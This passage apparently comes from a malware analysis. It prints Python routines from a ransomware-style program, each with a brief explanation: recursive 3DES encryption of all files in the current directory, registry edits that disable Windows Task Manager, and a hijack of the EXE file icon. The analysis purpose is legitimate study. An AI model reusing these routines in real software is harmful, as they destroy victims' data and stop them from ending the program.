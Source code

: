 ```python
    current_dir = os.getcwd()
    global current_script
    current_script = os.path.abspath(sys.argv[0])
    encrypt_directory_recursive(current_dir)
```
The code encrypts all files in the current directory and its subdirectories using 3DES encryption, which may lead to data loss if the encryption key is not properly stored.

### 9. Disable the Task Manager
```python
def reg_disable_taskmgr(dwDisable=True):
    try:
        key = winreg.CreateKey(winreg.HKEY_CURRENT_USER, r"Software\Microsoft\Windows\CurrentVersion\Policies\System")
        value = int(dwDisable)
        winreg.SetValueEx(key, "DisableTaskMgr", 1, winreg.REG_DWORD, value.to_bytes(4, byteorder='little'))
        winreg.CloseKey(key)
    except Exception as e:
        print(f"An error occurred: {e}")

def disable_task_manager():
    registry_path = r"SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"
    registry_name = "DisableTaskMgr"
    value = 1
    try:
        reg_key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, registry_path, 0, winreg.KEY_SET_VALUE)
        winreg.SetValueEx(reg_key, registry_name, 0, winreg.REG_SZ, str(value))
        winreg.CloseKey(reg_key)
    except WindowsError as e:
        print(f"An error occurred while setting the registry: {e}")
```
The code modifies the registry to disable the Windows Task Manager, preventing users from terminating the malicious program.

### 10. Modify the Default Icon of EXE Files
```python
def set_exe_icon():
    try:
        current_path = os.path.abspath(sys.argv[0])
        current_dir = os.path.dirname(current_path)
        sys_icon_path = os.path.join(current_dir, hj_path)
        key = winreg.OpenKey(winreg.HKEY_CLASSES_ROOT, '.exe', 0, winreg.KEY_SET_VALUE)
        winreg.SetValue(key, '', winreg.REG_SZ, 'exefile')
        key = winreg.OpenKey(winreg.HKEY_CLASSES_ROOT, 'exefile\\DefaultIcon', 0, winreg.KEY_SET_VALUE)
        winreg.SetValue(key, '', winreg.REG_SZ, sys_icon_path)
        print("Successfully modified the default icon!")
    except Exception as e:
        print(f"Failed to modify the default icon: {str(e)}")
```
The code modifies the registry to change the default icon of EXE files.
